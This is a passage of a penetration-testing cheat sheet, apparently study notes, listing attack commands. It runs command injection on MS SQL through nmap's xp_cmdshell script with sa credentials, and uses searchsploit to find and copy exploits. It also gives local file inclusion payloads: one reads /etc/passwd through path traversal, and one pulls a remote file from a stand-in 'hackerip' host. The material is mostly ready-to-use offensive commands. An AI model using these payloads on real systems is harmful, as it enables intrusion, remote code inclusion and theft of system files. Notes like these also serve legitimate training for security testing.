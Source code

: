 **Command Injection using nmap**

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.database=bankdb,ms-sql-xp-cmdshell.cmd="whoami" 10.11.1.31
```



### Telnet - 25

```
telnet $targetip 25
```

## Finding known exploits from Exploit-DB

To update to latest Exploit-DB

```
searchsploit -u 
```

To find a exploit

```
searchsploit $item
```

To copy the file to your current directory.

```
searchsploit -m $item 
```

To find item wihtout DOS attack

```
searchsploit apache 2.x | grep -v '/dos/'
```

## <mark style="color:blue;">**Local File inclusions**</mark>

Simple test if the target is vulnerable to LFI

```
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```

Simple test if you can run a local script against the target

```
http://target.com/?page=http://hackerip/evil.txt%00
```
